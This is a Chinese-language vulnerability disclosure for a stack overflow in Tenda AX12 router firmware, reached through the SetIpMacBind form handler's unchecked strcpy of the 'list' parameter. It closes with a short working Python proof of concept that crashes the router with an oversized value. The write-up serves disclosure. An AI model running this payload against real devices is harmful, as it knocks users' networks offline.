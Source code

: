 ## 漏洞描述 ##
设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：栈溢出

攻击效果：拒绝服务

## 漏洞成因 ##
该漏洞为发生在sub_42FDE4函数中的栈溢出漏洞，对应上级接口函数为sub_430124，对应的是处理/goform/SetIpMacBind下的post请求

首先，sub_430124调用了sub_42FFF8函数。

![](.\image\Snipaste_2022-07-30_18-20-26.png)

sub_42FFF8函数中，获取post传入的两个参数bindnum和list，并且会将list值的地址作为sub_42FDE4函数的参数。

![](.\image\Snipaste_2022-07-30_18-28-01.png)



sub_42FDE4，strcpy(v16, v6)，v6就是传入的list参数，而在这一过程中没用任何的长度限制与安全检查，由此攻击者可以通过一串长list造成栈溢出，实现拒绝服务攻击。

![](.\image\Snipaste_2022-07-30_18-33-51.png)



## POC ##

拒绝服务的poc：

```python

import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
cookie = {"Cookie":"password=1111"}
data = {"bindnum": "1", "list":"\r" + "A" * 1000}


requests.post(url, cookies=cookie, data=data)
```
